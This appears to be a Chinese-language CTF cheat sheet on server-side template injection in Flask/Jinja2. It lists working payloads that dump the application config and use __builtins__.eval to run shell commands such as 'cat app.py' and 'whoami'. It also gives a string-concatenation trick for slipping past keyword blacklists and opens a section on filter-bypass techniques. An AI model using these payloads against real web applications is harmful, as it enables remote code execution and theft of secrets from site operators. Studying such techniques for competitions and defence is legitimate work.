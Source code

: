 - `url_for`

查询配置信息

```
{{url_for.__globals__['current_app'].config}}
```

- `get_flashed_messages`

查询配置信息

```
{{get_flashed_messages.__globals__['current_app'].config}}
```

当然也可以通过一些配置信息来构造payload

```
{{url_for.__globals__.__builtins__.eval('__import__("os").popen("cat app.py").read()')}}

{{config.__init__.__globals__. __builtins__.eval('__import__("os").popen("cat app.py").read()')}}
{{get_flashed_messages.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}
```

- 最近发现还可以使用`__dict__`

  ```
  [].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('ls').read()
  ```

  

# 绕过黑名单过滤姿势总结

现在各大比赛都让你去绕过各种各样的黑名单，对网上资料做个总结与整合

## 前置知识

首先我认为在总结之前有必要对于前置知识做一定的了解

#### 语法

这是官方文档中关于模板的语法的介绍

```
{% ... %} for Statements 

{{ ... }} for Expressions to print to the template output

{# ... #} for Comments not included in the template output

#  ... # for Line Statements

```

```python
{%%} 用来声明变量，也可以用于循环语句和条件语句。
{{}}用于将表达式打印到模板输出
{##}表示未包含在模板输出中的注释
##可以有和{%%}相同的效果
{% set x= 'abcd' %}  声明变量
{% for i in ['a','b','c'] %}{{i}}{%endfor%} 循环语句
{% if 25==5*5 %}{{1}}{% endif %}  条件语句
此外在environment中配置line_statement_prefix后以下两条等价，app.jinja_env.line_statement_prefix="#"
 # for i in ['a','1']
{{ i }}
# endfor

```